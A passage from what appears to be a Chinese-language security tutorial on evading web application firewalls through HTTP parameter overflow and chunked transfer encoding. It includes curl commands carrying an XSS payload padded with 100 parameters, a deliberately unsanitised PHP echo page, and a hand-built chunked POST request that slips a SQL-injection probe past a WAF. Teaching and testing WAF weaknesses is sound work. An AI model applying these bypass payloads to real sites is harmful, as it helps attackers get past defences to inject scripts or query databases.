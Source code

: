 同样是出于对性能的考虑，一些WAF对于超长的数据包也会跳过。对于攻击者来说，他们可以构造超长的数据包，来绕过WAF的检测。

我们看个具体的例子。

```
我们对某网站先请求一个POST的XSS Payload，被拦截。
curl -v -d 'a=<img src=x onerror=alert(/xss/)>' xxx.com

之后通过Fuzz发现，当增加参数个数达到一定的量，例如100个之后，带着XSS Payload就不会被拦截了，并且网站可以正常访问。
curl -v -d 'a1=1&a2=2&......&a100=<img src=x onerror=alert(/xss/)>' xxx.com

```

在这个示例中，攻击者可以通过增加参数个数实现绕过WAF。理解了HTTP参数溢出问题之后，我们进入到对HTTP分块传输绕WAF的学习中。

### HTTP 分块传输

分块传输是一种传输编码，是把报文分割成若干个大小已知的“块”进行传输。

我们可以利用burpsuite，将请求报文中的`Transfer-Encoding`字段指定为`chunked`值，来声明采用分块传输。这样就可以把一个完整的攻击数据分割成若干份，WAF由于无法匹配到完整的攻击特征值，因此就可能会被绕过。

几乎所有可以识别`Transfer-Encoding`数据包的WAF，都没有处理分块数据包中长度标识处的注释。这就意味着，如果在分块数据包中加入注释的话，WAF识别不出这个数据包。

我们看个具体的例子。

```
<?php
header("Content-Type: text/html;charset=utf-8");
$id = $_REQUEST["id"];
if ($id){
    echo $id;
    }
?>

```

这段代码是我们测试用的网页代码，我们先用GET方式上传参数，将id设置为：

```
1 and 1=1

```

获取到的响应如下：

![图片](assets/350afe5cb0d049d0a4a4bdeea116ec50.jpg)

根据响应我们可以发现这个payload被WAF拦截，这时候，我们利用分块传输来进行绕过：

```
POST /xxxxxx.php HTTP/1.1
......
Transfer-Encoding: Chunked

1;
i
d
=1
5
a
6
nd
2
1=1
0

```
